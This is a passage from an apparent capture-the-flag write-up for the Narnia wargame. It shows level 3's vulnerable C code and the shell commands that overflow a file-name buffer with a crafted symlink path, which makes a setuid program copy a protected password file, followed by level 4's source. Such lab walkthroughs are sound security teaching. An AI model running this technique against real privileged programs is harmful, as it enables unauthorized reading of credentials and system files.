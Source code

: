 ```c
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
```

At first glance this looks a bit more complicated. However it is just another buffer overflow (line 13 and 22). This time however we don't control the stack, we control where the file gets written to. `/dev/null` is not a useful place for data, and we want the contents of `/etc/narnia_pass/narnia4`. As `narnia3` runs setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything beyond that will get written to the ofile. So the plan is to to create a symlink to `narnia4` that is 32 characters long, and then write that to the target. The issue here is that the source path's last 16 characters need to be the same as the target. So to do this I created the following directory and symlink:

```sourceCode
narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4
```

Now when we pass that to `narnia3`:

```sourceCode
narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"`
copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
narnia3@melinda:/narnia$ cat /tmp/narn4
[password]
```

It's a little odd, but I hope you understand what happened. The last part of the first path has to be a valid path, so that it can be written to. That's why we have the double `/tmp` setup.

## Level 04

```c
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
    int i;
    char buffer[256];

    for(i = 0; environ[i] != NULL; i++)
        memset(environ[i], '\0', strlen(environ[i]));

    if(argc>1)
        strcpy(buffer,argv[1]);

    return 0;
}
```
